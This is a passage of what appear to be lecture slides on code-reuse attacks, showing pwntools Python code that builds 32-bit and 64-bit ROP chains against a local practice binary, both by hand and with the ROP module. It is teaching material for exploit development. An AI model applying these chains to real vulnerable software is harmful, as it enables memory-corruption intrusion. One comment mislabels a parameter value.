   ```python
  chain += p32(67890)    # param2 (67890)

  p = process('./binary')
  p.send(chain)
  ```
- Writing using `ROP` module
  ```python
  from pwn import *
  context.arch = 'i386'
  e = ELF('./binary')
  r = ROP(e)

  # build chain for func1(buf, 12345)
  r.call('func1', [e.symbols['buf'], 12345])

  # build chain for func2(buf, 67890)
  r.func2(e.symbols['buf'], 67890)

  print(r.dump()) # debug dump

  p = process('./binary')
  p.send(b'A'*72 + r.chain())
  ```
  Much easier to understand!

</div>

---

## Code reuse attack - ROP: do it easier with pwntools (x86-**64**)

Automate 64bit ROP chains

<div class=twocolumn style="font-size: 0.7em">

- Writing manually
  ```python
  from pwn import *

  chain = b'A' * 72
  # build chain for func1(buf, 12345)
  chain += p64(0x400678) # gadget: pop rdi
  chain += p64(0x600500) # param1 (buf)
  chain += p64(0x400987) # gadget: pop rsi
  chain += p64(12345)    # param2 (12345)
  chain += p64(0x400100) # func1
  # build chain for func2(buf, 67890)
  chain += p64(0x400678) # gadget: pop rdi
  chain += p64(0x600500) # param1 (buf)
  chain += p64(0x400987) # gadget: pop rsi
  chain += p64(67890)    # param2 (12345)
  chain += p64(0x400200) # func2

  p = process('./binary')
  p.send(chain)
  ```
- Writing using `ROP` module
  ```python
  from pwn import *
  context.arch = 'amd64'
  e = ELF('./binary')
  r = ROP(e)

  # build chain for func1(buf, 12345)
  ```